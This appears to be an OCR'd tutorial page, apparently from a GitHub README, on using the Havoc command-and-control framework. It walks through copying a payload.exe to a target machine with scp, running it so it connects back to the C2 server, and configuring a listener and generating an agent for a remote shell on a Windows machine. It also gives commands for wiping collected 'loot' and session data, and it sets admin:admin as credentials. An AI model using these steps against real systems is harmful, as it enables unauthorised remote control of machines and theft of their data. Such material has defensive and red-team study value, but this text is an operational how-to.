 ## Deploy and Execute Payload on Target Machine

Transfer the payload to the target machine and execute it:

```bash
scp payload.exe user@target:/path/to/destination
```

Execute the payload on the target system. Once the payload is executed, it will establish a connection back to the Havoc C2 server.

## Managing Sessions

### Check for Active Sessions

Once the payload is executed, check for active shells in the Havoc client.

### Removing Old Sessions

To clear previous session data:

```bash
rm -rf data/loot/* && rm -f data/teamserver.db
```

For persistent Havoc installation:
```bash
rm /home/$(whoami)/.havoc/data/teamserver.db && rm -rf /home/$(whoami)/.havoc/data/loot/*
```

## Quick Havoc Installation via APT

If you prefer an easier installation, use APT:

```bash
sudo apt install havoc
```

Modify the default profile settings:

```bash
vim /usr/share/havoc/profiles/havoc.yaotl
```

Set the administrator credentials: `admin:admin` .

Start the server and client:

```bash
havoc server --profile ./profiles/havoc.yaotl -v --debug
havoc client
```

Configure a listener and deploy the payload:

1. `View > Listeners > Add`
2. Name: `admin-payload`
3. Host: `192.168.x.x`
4. Save the listener
5. `Attack > Payload > Generate`
6. Deploy and execute the agent on a Windows machine
7. Once executed, access the remote shell from the Havoc client

